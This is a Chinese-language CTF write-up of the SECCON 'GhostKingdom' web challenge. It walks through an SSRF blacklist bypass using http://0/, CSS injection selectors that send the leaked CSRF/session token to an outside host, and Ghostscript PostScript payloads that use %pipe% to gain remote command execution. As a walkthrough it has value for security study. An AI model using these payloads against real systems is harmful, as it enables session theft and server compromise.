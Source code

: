 # GhostKingdom

Web分類中唯一的題目

點開題目，會看到他說flag在目錄`/FLAG`底下，但檔名不知道

題目有三個功能:

1. send message給admin
2. screenshot指定的網址
3. 上傳圖片 (但只有localhost才能，看不到網址)

而send message的地方可以發現能注入任意css (base64 encoded)

另外screenshot的地方可以SSRF，能夠透過截圖送request到localhost

只是這邊不能直接打http://127.0.0.1之類的，有黑名單，但可以簡單繞過: `http://0/`

![](https://i.imgur.com/771eldM.png)

可以看到訪問`http://0/`，上面的來源變成`localhost`

另外能觀察到，他幾乎大部份操作都是透過GET完成，所以透過截圖功能甚至可以做到登入、Send Message

登入:

`http://ghostkingdom.pwn.seccon.jp/?url=http%3A%2f%2f0%2f%2f%3Fuser%3Dkaibro%26pass%3Dggininder%26action%3Dlogin&action=sshot2`

Send Message:

`http://ghostkingdom.pwn.seccon.jp/?url=http%3A%2f%2f0%2f%3Fcss%3D%26msg%3Dtest%26action%3Dmsgadm2&action=sshot2`

到這邊看似沒辦法下一步，因為沒辦法XSS，css injection偷到csrf token也不知道能做啥，似乎也沒其他利用的方式

但其實題目有個關鍵點，他的session id和csrf token其實是一樣的...

所以我們透過CSS Injection偷到CSRF Token後，就能以相當於localhost的身份登入了

CSS Injection:

`input[name=csrf][value^="2"]{background: url(http://kaibro.tw/2)}`

`input[name=csrf][value^="2e"]{background: url(http://kaibro.tw/2e)}`

...

透過此種方式，就能慢慢爆出來CSRF Token

最後拿到CSRF Token，就能替換我們自己的Session id

![](https://i.imgur.com/vCl5zSu.png)

可以看到上傳圖片的action為`upl0ad`

後面就蠻明顯要我們用GhostScript漏洞去RCE

![](https://i.imgur.com/sYIQ2Og.png)

傳完圖片可以做GIF轉檔

從網址也可以明顯看到，他使用GhostMagick

但傳了我平常最常用的Payload上去

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%sleep 10') currentdevice putdeviceprops
```

發現不能Work，Reverseshell和DNS都沒回來

![](https://i.imgur.com/9QVruDU.png)

後來跑去翻payload

才發現CentOS版本的payload不太一樣:

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%sleep 10) currentdevice putdeviceprops
```

於是就成功RCE了，接著就去讀`/FLAG/`下面的檔名

`ls /var/www/html/FLAG > /var/www/html/images/kaibro.secret`

![](https://i.imgur.com/idxCIIu.png)

flag檔名為`FLAGflagF1A8.txt`

![](https://i.imgur.com/Zddz7z1.png)


